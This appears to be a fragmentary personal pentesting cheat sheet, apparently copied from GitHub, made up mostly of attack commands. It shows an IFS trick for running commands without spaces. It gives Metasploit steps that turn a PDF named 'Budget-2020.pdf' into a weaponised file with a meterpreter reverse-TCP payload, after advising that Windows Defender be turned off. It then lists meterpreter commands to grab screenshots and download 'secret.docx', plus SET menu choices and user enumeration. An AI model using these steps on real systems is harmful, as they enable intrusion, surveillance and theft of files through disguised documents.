 # Misc exploit

Command execution without space:

`
IFS=_;command='ls_-l';$command
`

# Exploit Adobe example:

These two combinations work on Windows 10. Make sure to turn off windows defender...
`
exploit/windows/fileformat/adobe_pdf_embedded_exe with Adobe Reader 8.1.1
exploit/windows/fileformat/adobe_libtiff with Adobe Reader 8.1.1
`
Get adobe download from: ftp://ftp.adobe.com/pub/adobe/reader/win/8.x/

Steps:
`
use exploit/windows/fileformat/adobe_libtiff 
set FILENAME Budget-2020.pdf
set PAYlOAD windows/meterpreter/reverse_tcp
set LHOST 172.17.0.2
exploit 
[COPY OVER THE PDF FILE]
use exploit/multi/handler 
`

Capture screen:
`
use espia
screengrab

`
Download a file:
`
download secret.docx
'

# Exploit settolkit example
`
3
1
13
2
2
`

# Hashcat


# Windows things

Checked logged in users:
`
qwinsta /server:1.1.1.1
`



